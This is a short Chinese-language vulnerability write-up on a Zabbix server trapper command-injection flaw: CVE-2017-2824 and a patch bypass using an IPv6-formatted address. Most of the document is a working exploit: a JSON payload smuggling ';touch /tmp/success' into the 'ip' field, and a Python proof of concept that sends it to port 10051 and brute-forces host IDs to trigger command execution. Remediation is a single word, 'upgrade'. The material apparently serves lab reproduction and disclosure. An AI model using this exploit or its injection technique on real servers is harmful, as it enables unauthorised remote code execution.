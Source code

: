 ### 一 漏洞描述
Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在CVE-2017-2824中,其Server端 trapper command 功能存在一处代码执行漏洞,而修复补丁并不完善,导致可以利用IPv6进行绕过,注入任意命令。

### 二 漏洞利用
运行poc  
{"request": "active checks", "host": "vulhub", "ip": ";touch /tmp/success"}

```python
import sys
import socket
import json
import sys

def send(ip, data):    
    conn = socket.create_connection((ip, 10051), 10)    
    conn.send(json.dumps(data).encode())    
    data = conn.recv(2048)    
    conn.close()    
    return data

target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):    
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})    
    if data and b'failed' not in data:        
        print('hostid: %d' % i)        
        print(data)
```

### 三 漏洞修复
升级
